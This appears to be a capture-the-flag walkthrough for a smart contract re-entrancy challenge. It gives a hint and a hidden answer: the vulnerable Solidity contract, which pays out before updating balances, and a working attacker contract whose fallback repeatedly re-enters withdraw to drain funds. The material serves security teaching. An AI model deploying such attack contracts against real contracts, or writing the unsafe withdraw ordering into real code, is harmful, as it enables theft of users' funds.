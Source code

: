 # Re-entrancy

**HINT:** Look at the order of the Withdraw function (CHECKS -> INTERACTION -> EFFECTS)
<details>
<summary>Answer</summary>
<p>

```
pragma solidity ^0.6.4;



contract Reentrance {
  

  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to] + msg.value;
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result, bytes memory data) = msg.sender.call.value(_amount)("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  fallback() external payable {}
}


contract Reenter {
    Reentrance reentranceContract;
    uint public amount = 1 ether;    
    
    constructor(address payable reentranceContactAddress) public payable {
        reentranceContract = Reentrance(reentranceContactAddress);
    }

function initiateAttack() public {
    reentranceContract.donate{value:amount}(address(this));
    reentranceContract.withdraw(amount); 
  }
  
  fallback() external payable {
    if (address(reentranceContract).balance >= 0 ) {
        reentranceContract.withdraw(amount); 
    }
   }
}
```
add your instance address and deploy with 1 ether then attack
</p>
</details>
